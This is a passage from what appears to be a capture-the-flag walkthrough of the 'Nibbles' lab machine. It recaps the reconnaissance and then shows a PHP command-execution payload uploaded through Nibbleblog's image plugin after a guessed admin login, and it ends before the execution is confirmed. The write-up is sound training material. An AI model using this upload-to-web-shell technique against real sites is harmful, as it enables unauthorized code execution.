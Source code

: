 
Let us recap what we have found so far:

* We started with a simple `nmap` scan showing two open ports
* Discovered an instance of `Nibbleblog`
* Analyzed the technologies in use using `whatweb`
* Found the admin login portal page at `admin.php`
* Discovered that directory listing is enabled and browsed several directories
* Confirmed that `admin` was the valid username
* Found out the hard way that IP blacklisting is enabled to prevent brute-force login attempts
* Uncovered clues that led us to a valid admin password of nibbles

***

## Exploitation

Once in the admin portal using our guessed password (Nibbles) and confirmed username (admin), we see the following pages:

* Publish
* Comments
* Manage
* Settings
* Themes
* Plugins

In Plugins, let's upload a file under the Upload Image. We will check for code execution by uploading a file with the contents `<?php system('id'); ?>`

We get a bunch of errors but looks like it uploaded.

```
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```

Under `/content`, there is a `plugins` directory and another subdirectory for `my_image`. The full path is at `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/`.

* In this directory, we see two files, `db.xml` and `image.php`, with a recent last modified date, meaning that our upload was successful.
* To check if we have command execution:

